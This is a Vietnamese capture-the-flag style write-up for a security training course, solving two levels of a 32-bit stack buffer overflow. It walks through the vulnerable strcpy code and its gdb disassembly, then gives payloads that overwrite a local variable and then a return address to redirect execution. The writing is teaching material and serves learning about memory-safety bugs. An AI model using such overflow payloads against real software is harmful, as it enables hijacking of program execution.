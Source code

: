 #Solution

> Người viết bài còn tuy thiếu kinh nghiệm nhưng đề cao tinh thần học hỏi. Mọi sai sót vui lòng bỏ qua 🙂 .
Pwn
> Trình bày cách giải của bạn ở level 02 & 03 trong ví dụ 2 của bài training. Người chiến thằng là người có bài viết giải thích rõ ràng nhất. Materials: https://github.com/lamminhbao/sectrain2018
##Level 2

Vì chúng ta có source code → nên ta biết hàm `f` thực hiện tạo biến `cookie` và xử lí chuỗi `s` nhập vào:

    void f(char* input) {
            int cookie = 0;
            char s[32];
            strcpy(s, input);
    
            if (cookie){
                    printf("Cookie changed - You win level 00.\n");
            }
            if (cookie == 0x41424344) {
                    printf("Cookie to 0x%x  - You win level 01.\n", cookie);
            }
            if (cookie == 0x01020304) {
                    printf("Cookie to 0x%x  - You win level 02.\n", cookie);
            }
            printf("%p\n", s);
    }

Biến `cookie` ban đầu được gán bằng `0`. Để win level 2 thì cần phải thay đổi giá trị của `cookie` thành các giá trị cho phù hợp.
Chương trình xài hàm `strcpy` cũ kỹ dễ bị lỗi buffer overflow. Như vậy có thể lợi dụng lỗi này của `strcpy` để tràn qua vùng nhớ của biến `cookie`.
Vấn đề là chúng ta không biết chương trình sẻ dụng compiler gì và như thế nào (mặc kệ dòng comment `// gcc -m32 -z execstack -fno-stack-protector ex02.c -o ex02`) nên không thể chắc chắn được các biến `s` và `cookie` được sắp xếp như thế nào trong stack. Vì vậy cần disasemble để kiểm tra:

1. Chạy `gdb` load file `ex02`
    gdb-peda$ file ex02
    Reading symbols from ex02...(no debugging symbols found)...done.
2. Vì xử lý chính là hàm `f` nên kiểm tra hàm này:
    ```gdb-peda$ disassemble f
    Dump of assembler code for function f:
       0x080484b4 <+0>:        push   ebp
       0x080484b5 <+1>:        mov    ebp,esp
       0x080484b7 <+3>:        sub    esp,0x38
       0x080484ba <+6>:        mov    DWORD PTR [ebp-0xc],0x0
       0x080484c1 <+13>:        sub    esp,0x8
       0x080484c4 <+16>:        push   DWORD PTR [ebp+0x8]
       0x080484c7 <+19>:        lea    eax,[ebp-0x2c]
       0x080484ca <+22>:        push   eax
       0x080484cb <+23>:        call   0x8048350 <strcpy@plt>
       0x080484d0 <+28>:        add    esp,0x10
       0x080484d3 <+31>:        cmp    DWORD PTR [ebp-0xc],0x0
       0x080484d7 <+35>:        je     0x80484e9 <f+53>
       0x080484d9 <+37>:        sub    esp,0xc
       0x080484dc <+40>:        push   0x80485f8
       0x080484e1 <+45>:        call   0x8048360 <puts@plt>
       0x080484e6 <+50>:        add    esp,0x10
       0x080484e9 <+53>:        cmp    DWORD PTR [ebp-0xc],0x41424344
       0x080484f0 <+60>:        jne    0x8048505 <f+81>
       0x080484f2 <+62>:        sub    esp,0x8
       0x080484f5 <+65>:        push   DWORD PTR [ebp-0xc]
       0x080484f8 <+68>:        push   0x804861c
       0x080484fd <+73>:        call   0x8048340 <printf@plt>
       0x08048502 <+78>:        add    esp,0x10
       0x08048505 <+81>:        cmp    DWORD PTR [ebp-0xc],0x1020304
       0x0804850c <+88>:        jne    0x8048521 <f+109>
       0x0804850e <+90>:        sub    esp,0x8
       0x08048511 <+93>:        push   DWORD PTR [ebp-0xc]
       0x08048514 <+96>:        push   0x8048644
       0x08048519 <+101>:        call   0x8048340 <printf@plt>
       0x0804851e <+106>:        add    esp,0x10
       0x08048521 <+109>:        sub    esp,0x8
       0x08048524 <+112>:        lea    eax,[ebp-0x2c]
       0x08048527 <+115>:        push   eax
       0x08048528 <+116>:        push   0x8048669
       0x0804852d <+121>:        call   0x8048340 <printf@plt>
       0x08048532 <+126>:        add    esp,0x10
       0x08048535 <+129>:        nop
       0x08048536 <+130>:        leave  
       0x08048537 <+131>:        ret    
    End of assembler dump.

Ở dòng 11 ta thấy có lệnh gọi hàm con `strcpy`:

    0x080484cb <+23>:        call   0x8048350 <strcpy@plt>

Trong file source ta thấy hàm `f` tạo biến `cookie` và mảng `s` trước khi gọi hàm `strcpy`. Ở đây ta đang quan tâm đến `cookie` và `s` nên trong đoạn asm trên là chỉ cần quan tâm đến 10 dòng đầu:

- `0x080484b4 <+0>:        push   ebp` đẩy `ebp` lên stack
- `0x080484b5 <+1>:        mov    ebp,esp` copy giá trị của `esp` vào `ebp`
- `0x080484b7 <+3>:        sub    esp,0x38` đầy stack xuống `0x38`=`56` ô nhớ (giả sử 1 ô nhớ = 1 byte) vì trong kiến trúc Intel x86 (chương trình được complile cho kiến trúc này) stack phát triển từ xuống → allocate vùng nhớ trên stack cho các biến local của hàm (`f`).

Vẫn chưa có gì đáng chú ý cho đến dòng:

- `0x080484ba <+6>:        mov    DWORD PTR [ebp-0xc],0x0` lưu số nguyên 4 bytes `0x0`=0 vào địa chỉ của `ebp-12` (`0xc`=`12`); dòng này  tương đương `int cookie = 0` trong chương trình nguồn.
- `0x080484c1 <+13>:        sub    esp,0x8` allocate 8 bytes vào đầu stack
- `0x080484c4 <+16>:        push   DWORD PTR [ebp+0x8]` đẩy 4 bytes bắt đầu từ `ebp+0x8` lên trên cùng của stack. Dòng này liên quan đến `char* input` trong source code.
- `0x080484c7 <+19>:        lea    eax,[ebp-0x2c]` lưu địa chỉ của `ebp-0x2c` vào `eax`, địa chỉ này chính là địa chỉ của mảng `s`.
- `0x080484ca <+22>:        push   eax` đưa eax lên đầu stack.

Từ đó ta có thể thấy vị trí của `s` là `ebp-44` (`0x2c`=`44`), còn `cookie`  có vị trí `ebp-12`. 2 địa chỉ này cách nhau `44-12`=`32` ô nhớ. Như vậy có thể tạm kết luận compiler đã sắp xếp `cookie` nằm trên `s` trong stack. Chương trình theo quy tắc little-endian (do compile trên x86) nên dự liệu sẽ được ghi ngược lại từ phải qua trái: với giá trị `0x01020304` thì máy sẽ lưu là `04 03 02 01`.
Như vậy, vần đề còn lại chỉ làm làm tràn bộ nhớ bằng cách nhập quá 32 ký tự và thay đổi giá trj biến `cookie` thành `0x01020304`. 
Tuy nhiên, thử đổi `0x01020304` sang ASCII, ta được:

- `01` = `SOH`
- `02` = `STX`
- `03` = `ETX`
- `04` = `EOT`

Đây là những ký tự không có trên bàn phím và không thể nhập trực tiếp. Tuy nhiên có cách để giải quyết vần đề này bằng cách sử dụng `echo` để truyền ký tự:

    ./ex02 `echo -e "AhihiAhihiAhihiAhihiAhihiAhihi:>\x04\x03\x02\x01"`

→ Kết quả thu được:

    root@bach-kali:~/Desktop/sectrain2018# ./ex02 `echo -e "AhihiAhihiAhihiAhihiAhihiAhihi:>\x04\x03\x02\x01"`
    Cookie changed - You win level 00.
    Cookie to 0x1020304  - You win level 02.
##Level 3

Ở thử thách này thì chúng ta cần phải thay đổi luồng thực thi để chương trình chạy hàm `abcxyz`.
Vì địa chỉ trở về nằm trên `ebp` nên cần overflow qua cả `ebp` và ghi đè lên ô địa chỉ trả về.
Câu hỏi đặt ra là ta cần bao nhiêu bytes để làm tràn qua `ebp`. Quan sát đoạn asm `0x080484c7 <+19>:        lea    eax,[ebp-0x2c]` ở trên ta có thể thấy địa chỉ của mảng `s` cách `ebp` 44 ô (`0x2c`). Bản thân `ebp` chiềm 4 bytes nên để tràn qua nó ta chỉ cần nhập đủ 48 bytes.
Bây giờ ta chỉ cần ghi đè địa chỉ bắt đầu của `abcxyz` lên địa chỉ trở về. Để biết được địa chỉ trở về nó ta chỉ cần disassemble `abcxyz`:
```gdb-peda$ disassemble abcxyz
Dump of assembler code for function abcxyz:
   0x0804849b <+0>:	push   ebp
   0x0804849c <+1>:	mov    ebp,esp
   0x0804849e <+3>:	sub    esp,0x8
   0x080484a1 <+6>:	sub    esp,0xc
   0x080484a4 <+9>:	push   0x8048600
   0x080484a9 <+14>:	call   0x8048360 <puts@plt>
   0x080484ae <+19>:	add    esp,0x10
   0x080484b1 <+22>:	sub    esp,0xc
   0x080484b4 <+25>:	push   0x8048612
   0x080484b9 <+30>:	call   0x8048370 <system@plt>
   0x080484be <+35>:	add    esp,0x10
   0x080484c1 <+38>:	nop
   0x080484c2 <+39>:	leave  
   0x080484c3 <+40>:	ret    
End of assembler dump.
```

Như vậy địa chỉ bắt đầu của `abcxyz` là `0x0804849b`. Chỉ cần ghi đè giá trị này lên giá trị trả về là qua được level 3:
```
./ex02 `python -c 'print("f"*48+"\x9b\x84\x04\x08")'`
Cookie changed - You win level 00.
0xffe1bd8c
You win level 03.
